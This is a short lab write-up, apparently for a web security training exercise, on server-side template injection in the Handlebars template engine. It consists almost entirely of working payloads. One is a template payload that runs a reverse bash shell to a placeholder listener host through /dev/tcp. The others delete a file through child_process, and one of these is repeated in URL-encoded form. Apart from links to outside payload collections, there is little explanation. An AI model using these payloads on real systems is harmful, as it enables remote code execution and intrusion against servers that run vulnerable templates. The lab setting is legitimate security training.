




# Lab: Server-side template injection in an unknown language with a documented exploit





- https://gist.github.com/vandaimer/b92cdda62cf731c0ca0b05a5acf719b2

```c
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/MACHINE_IP_WITH_NC_LISTENING/TCP_PORT 0>&1\"')" }}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

```c
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');" }}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```



```c
return require('child_process').execSync('rm /home/carlos/morale.txt')
```

```c
{{%23with "s" as |string|}}%0A%20 {{%23with "e"}}%0A%20%20%20 {{%23with split as |conslist|}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{this.push (lookup string.sub "constructor")}}%0A%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20 {{%23with string.split as |codelist|}}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{this.push "return require('child_process').execSync('rm %2fhome%2fcarlos%2fmorale.txt')%3b" }}%0A%20%20%20%20%20%20%20 {{this.pop}}%0A%20%20%20%20%20%20%20 {{%23each conslist}}%0A%20%20%20%20%20%20%20%20%20 {{%23with (string.sub.apply 0 codelist)}}%0A%20%20%20%20%20%20%20%20%20%20%20 {{this}}%0A%20%20%20%20%20%20%20%20%20 {{%2fwith}}%0A%20%20%20%20%20%20%20 {{%2feach}}%0A%20%20%20%20%20 {{%2fwith}}%0A%20%20%20 {{%2fwith}}%0A%20 {{%2fwith}}%0A{{%2fwith}}

```

- https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/JavaScript/#handlebars-basic-injection

